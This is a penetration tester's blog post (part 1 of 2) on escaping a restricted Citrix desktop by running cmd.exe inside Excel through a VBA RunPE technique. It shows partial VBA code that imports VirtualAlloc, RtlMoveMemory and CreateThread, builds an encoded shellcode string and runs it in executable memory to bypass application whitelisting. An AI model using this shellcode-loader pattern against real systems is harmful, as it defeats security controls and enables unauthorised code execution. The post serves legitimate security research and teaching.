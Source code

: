 ```yaml
---
title: "VBA RunPE - Breaking Out of Highly Constrained Desktop Environments - Part 1/2"
layout: "post"
categories: ["Defense Evasion"]
tags: ["Research","Bypass"]
image: /assets/og/defense_evasion.png
---
```


In this post, I'd like to share a technique that I often use to break out of highly constrained desktop environments such as CItrix. The only prerequisite is to have access to _Microsoft Word_ or _Excel_ with the VBA editor enabled. 


## Background

During an engagement, I had to assess the security level of a thick client on a Citrix virtual desktop. Usually, this kind of audit is quite easy. You find a way to open an _Explorer_ window, you access the `C:\` drive, execute `cmd.exe` or, even better, `powershell.exe`, and it's almost game over. If you're lucky enough, you will even find a vulnerability to escalate your privileges.

This time, however, it was different. I was able to quickly open an ``Explorer`` window - using the `File > Open...` menu - but, from there, I got an `Access Denied` error message with every application I tried to execute. None of the techniques listed in the [UltimateAppLockerByPassList](https://github.com/api0cradle/UltimateAppLockerByPassList) worked. 

The `Access Denied` error messages I got were not caused by _AppLocker_ but by a third-party security product: _[AppSense](https://www.ivanti.com/company/history/appsense)_ by _Ivanti_, and it was properly configured. Nevertheless, I spotted a potential weakness...


## The weakness 

After a few hours spent on looking for what I could execute on the virtual desktop, I came to the conclusion that only the thick client itself and _Microsoft Excel_ were accessible with my current privileges. So, I opened _Excel_ and enabled the _Developer tab_ to access the VBA editor. This was my way out...

This will probably seem an obvious avenue to explore for the most experienced pentesters but, at that time, it was not for me. I only knew that I could use `Metasploit` to generate shellcodes as VBA payloads but I also knew that they would be detected by the antivirus software. 


## VBA to the rescue

From there, I've done a lot of research to see what I could do with the VBA editor, and I stumbled upon [Didier Stevens' blog](https://blog.didierstevens.com/). For those of you, like me at that time, who never heard of him before, he is a Belgian security researcher, who works a lot on malicious _Office_ documents and ways to analyze and detect them.

One of his posts caught my attention: [Create Your Own CMD.XLS](https://blog.didierstevens.com/2016/02/10/create-your-own-cmd-xls/). It was about running `cmd.exe` within _Excel_ without creating a new process. Wait...! What...?!

![](/assets/posts/2018-12-12-vba-runpe-part1/01_stevens-blog-cmd-xls.png)

As we can see on his screenshot, the title of the command prompt window is actually the path of the _Excel_ executable. How is that possible and how will it help us?


## RunPE in VBA

Didier Stevens actually implemented a variant of the _RunPE_ technique in VBA. RunPE is a trick that has been used by malware authors for many years. It consists in running code inside the memory of a legit process in order to hide its actual ativity. 

I won't digress too much and explain what _RunPE_ is in detail. Instead, I will try to explain how his code works. You can follow along by downloading it [here](https://didierstevens.com/files/software/cmd-dll_v0_0_4.zip).

### 1) Importing WIN32 functions 

One of the most powerful features of VBA is the possibility to import functions from the Windows API. That's exactly what the first lines of his code do. They import 3 functions from `kernel32.dll`:

- [VirtualAlloc](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366887(v=vs.85).aspx)
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/desktop/devnotes/rtlmovememory)
- [CreateThread](https://msdn.microsoft.com/en-us/library/windows/desktop/aa374779(v=vs.85).aspx)

```vb
Private Declare Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As Long, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Sub RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As Long, ByVal sSource As String, ByVal lLength As Long)
Private Declare Function CreateThread Lib "KERNEL32" (ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, ByVal lpParameter As Long, ByVal dwCreationFlags As Long, ByRef lpThreadId As Long) As Long
```

These functions are also the ones thet are typically used to execute a _shellcode_ on Windows. 

### 2) Defining structures and constants

A lot of structures and constants are defined in the Windows API. The problem is that VBA is _not aware_ of these definitions. So we have to declare them manually. 

Here, we are lucky, only two constants are required by `VirtualAlloc` and that's all.

- `MEM_COMMIT`
- `PAGE_EXECUTE_READWRITE`

```vb
Const MEM_COMMIT = &H1000
Const PAGE_EXECUTE_READWRITE = &H40
```

### 3) The shellcode 

The objective is to run `cmd.exe` within _Excel_. To do so, the `cmd.exe` PE file was extracted from [ReactOS](https://reactos.org/) and converted to an alphanumeric shellcode. However, this operation has a cost. It generates a huge string that needs to be embedded into the code. To add to the challenge, the VBA editor has several restrictions: the length of the lines of code and functions are limited. 

Therefore, the shellcode needs to be constructed from the concatenation of multiple blocks, which are themselves the concatenation of multiple strings. 

The blocks are constructed like this:

```vb
Private Function ShellCode1() As String
    Dim sShellCode As String

    sShellCode = ""
    sShellCode = sShellCode + "6FoIAADDVYnlUVZXi00Mi3UQi30U/zb/dQjoGQAAAIkHgccEAAAAgcYEAAAA4uZfXlmJ7F3CEABVieVT"
    sShellCode = sShellCode + "VldRZP81MAAAAFiLQAyLSAyLEYtBMGoCi30IV1DoWwAAAIXAdASJ0evni0EYUItYPAHYi1h4WFABw4tL"
    sShellCode = sShellCode + "HItTIItbJAHBAcIBw4syWFABxmoB/3UMVugjAAAAhcB0CIPCBIPDAuvjWDHSZosTweICAdEDAVlfXluJ"
    sShellCode = sShellCode + "7F3CCABVieVRU1IxyTHbMdKLRQiKEIDKYAHT0eMDRRCKCITJ4O4xwItNDDnLdAFAWltZiexdwgwAVYnl"
    sShellCode = sShellCode + "g30MAHUVi0UQUGoAi00I/1EoUItFCP9QDOsXi1UQUotFDFBqAItNCP9RKFCLRQj/UBBdwgwAVYnlg+wU"
    sShellCode = sShellCode + "i0UUi0gEiU3wi1UUiwKLTRSLEQ+3ShSNVAgYiVXsx0X8AAAAAOsM/0X8i03sg8EoiU3si1UUiwIPt0gG"
    '[snip]
    
    ShellCode1 = sShellCode
End Function
```

The blocks are then assembled like this:

```vb
Private Function ShellCode() As String
    Dim sShellCode As String

    sShellCode = chr(&hEB) + chr(&h3A) + chr(&h31) + chr(&hD2) + chr(&h80) + chr(&h3B) + chr(&h2B)
    '[snip]
    sShellCode = sShellCode + ShellCode1()
    sShellCode = sShellCode + ShellCode2()
    sShellCode = sShellCode + ShellCode3()
    sShellCode = sShellCode + ShellCode4()
    '[snip]
    sShellCode = sShellCode + ShellCode204()
    sShellCode = sShellCode + ShellCode205()
    sShellCode = sShellCode + ShellCode206()
    sShellCode = sShellCode + ShellCode207()
    sShellCode = sShellCode + ShellCode208()

    ShellCode = sShellCode
End Function
```

Calling the `ShellCode()` function will therefore _dynamically_ generate the entire shellcode in memory.

### 4) Executing the shellcode

Once the shellcode is constructed, it can be executed the same way it would be in a standard Windows console application written in C++. First, a buffer is allocated using `VirtualAlloc` with `EXECUTE` permission. Then, the content of the shellcode is copied to the allocated buffer. Finally, a new thread is created by specifying the address of the buffer as a pointer to the thread `StartFunction`.  

```vb
Public Sub ExecuteShellCode()
    Dim sShellCode As String
    Dim lpMemory As Long
    Dim lResult As Long

    sShellCode = ShellCode()
    lpMemory = VirtualAlloc(0&, Len(sShellCode), MEM_COMMIT, PAGE_EXECUTE_READWRITE)
    RtlMoveMemory lpMemory, sShellCode, Len(sShellCode)
    lResult = CreateThread(0&, 0&, lpMemory, 0&, 0&, 0&)
End Sub
```


## Conclusion

Et voilà! We have a VBA macro that can be used to run `cmd.exe` within _Word_ or _Excel_. This can bypass any restriction as long as you have access to one of these two _Office_ products and the VBA editor is enabled. 

However, it has several drawbacks:

### It only runs `cmd.exe`

Thanks to the command prompt, we can browse the entire file system easily, and... ...that's about all. Indeed, we won't be able to execute any other commands since it would require the creation of subprocesses. In addition, the shellcode was developed to run `cmd.exe` only and creating a new one to execute another PE file might represent a tedious task. 

### __It is only 32-bit compatible__

This time, I was very lucky because a 32-bit version of _Office_ was installed in the virtual environment. If a 64-bit version was installed instead, the code would have failed. 

### __The code is huge!__

The final size of the VBA code is more than 2.2MB, for a total of more than 22,000 lines of code. A detail that I didn't mention in my scenario is the fact that file transfers between the host and the virtual desktop were also forbidden. Fortunately, it was still possible to use the clipboard but since its size was limited, I had to copy the entire code piece by piece manually. I could have used something like a _[Rubber Ducky](https://shop.hak5.org/products/usb-rubber-ducky-deluxe)_ to work around this issue but I figured that the risk of failure was too high because of the huge amount of code to type.

But don't get me wrong, I'm very impressed by Didier Stevens' work and it clearly saved my day because I had nothing else to rely on. However, it was one of those times when you think you could have done better. So, I decided to make my own version and I implemented the full RunPE technique in VBA to address these limitations. 

The development process will be discussed in part 2... ;)

